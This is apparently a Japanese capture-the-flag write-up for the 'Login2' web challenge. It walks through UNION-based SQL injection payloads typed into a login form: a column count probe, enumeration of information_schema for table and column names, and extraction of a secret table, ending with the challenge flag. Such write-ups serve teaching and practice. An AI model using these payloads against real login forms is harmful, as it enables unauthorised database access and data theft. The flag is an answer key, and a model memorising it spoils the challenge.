 ```yaml
---
title: Login2
description: union select  によるSQLi
author: rikuta0811_dash
genre: Web
solver: 21
point: 323
---
```


# Login 2

> 筑紫君が自分の会員制サイトを修正したんだって。でもどうやら何が問題だったのかわかっていないみたいですよ?
>
> https://tsukuctf.sechack365.com/problems/login2
>
> ※ この問題では/problems/login2 以下のみを用います。 他の問題/problems/<name>などと混同しないよう注意してください。

Login 1 ~ 3 がセットで SQL injection の問題になっています。
Login2 では、SQL injection が可能な場所を見つけた後に、適切な Injection によりデーターベース内の情報を探索することで flag を得ることができます。

まず Username に`' or 1=1 ; --`を指定すると、図のようなログイン画面![login2](./login2.png)が表示されます。どうやらここに SQLi ができそうです。
`UNION SELECT` で情報を抜くために、まず SELECT 文のカラム数を特定します。
Username として `' union select null ; -- `, `' union select null, null ; -- `, `' union select null, null, null ; -- ` ...と null の数を増やしていくと、null が 2 個のときにログインに成功します。
これにて攻撃の準備は完了です。ここからは、データベース内を探索していきます。

MySQL 内のデータに関する情報は、`information_schema.columns`というテーブルに収納されています。まずは、ここの`table_name`というカラムを見るのが定石です。ということで、Username に

```
' UNION SELECT table_name, null FROM information_schema.columns; --
```

を入力してログインすると、`super_secret_table`というテーブルがあることがわかります。多分 flag はここでしょう。
次に、カラム名を知るために、Username を

```
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'super_secret_table'; --
```

としてログインします。すると、id と secret というカラムがあることがわかります。
最後に、

```
' UNION SELECT secret, null FROM super_secret_table; --
```

とすれば flag がゲットできます。

```txt
TsukuCTF{50_muCh_GR3AT_Hacker_!ND3ED}
```
